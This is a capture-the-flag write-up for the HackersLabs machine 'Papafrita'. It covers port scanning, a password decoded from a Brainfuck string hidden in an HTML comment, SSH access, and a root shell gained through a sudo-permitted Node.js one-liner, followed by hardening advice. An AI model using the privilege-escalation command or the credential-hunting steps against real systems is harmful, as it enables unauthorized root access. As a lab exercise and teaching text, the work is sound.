




# Papafrita - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.99 |
| **Date** | March 4, 2026 |

## 1. Executive Summary

The exploitation of the **Papafrita** machine involved source code analysis, credential extraction from a Brainfuck-encoded string, and privilege escalation via Node.js binary misconfiguration. Initial access was gained as user `abuela` using credentials decoded from obfuscated HTML comments. Privilege escalation to root was achieved by exploiting a sudo NOPASSWD configuration on `/usr/bin/node`, leveraging a known GTFOBins technique to spawn a shell.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process began with standard host discovery and port enumeration.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.99

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.99 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.99 -oN target
```

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.57 |

### 2.2 Web Analysis & Source Code Inspection

Accessing the web server on port 80 displayed a standard page. Inspecting the HTML source code revealed an obfuscated comment at line 213 containing a Brainfuck-encoded string.



**Brainfuck String:**
```
++++++++++[>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++++>+++++++++++>+++++++++++>++++++++++<<<<<<<<<<<<<<<<<<<<-]>---.>--.>---.>+.>--.>---.>-.>---.>--.>-----.>+.>.>----.>---.>--.>---.>-----.>+.>++.>---.
```

Using a Brainfuck decoder, the string translated to: `abuelacalientalasopa`



## 3. Exploitation (Foothold)

### 3.1 SSH Initial Access

Based on the decoded string, I attempted to use abuelacalientalasopa as a credential. Initial attempts at brute-forcing through Hydra and finally manual testing confirmed a successful login using the following combination:

```bash
ssh abuela@192.168.86.99
```

## 4. Privilege Escalation

### 4.1 Sudo Enumeration

Checking sudo privileges revealed Node.js could be executed as root without a password.

```bash
abuela@papafrita:~$ sudo -l
Matching Defaults entries for abuela on papafrita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User abuela may run the following commands on papafrita:
    (root) NOPASSWD: /usr/bin/node
```

### 4.2 Node.js Shell Escape

Leveraging a [GTFOBins](https://gtfobins.org/gtfobins/node/) technique, the Node.js `child_process` module was used to spawn a root shell.

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

## 5. Flags & Proof

abuela



root



## 5. Remediation & Hardening

- **Remove Source Comments:** Sensitive information, even if obfuscated, should never be embedded in public-facing source code.
- **Restrict Interpreter Sudo Access:** Avoid granting NOPASSWD sudo permissions to interpreters (Node.js, Python, Perl, etc.) as they enable arbitrary command execution.
- **Strong Credential Policy:** Use strong, non-guessable passwords that aren't derivable from public information.
- **Audit Sudoers:** Regularly review `/etc/sudoers` to eliminate unnecessary elevated privileges.

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)
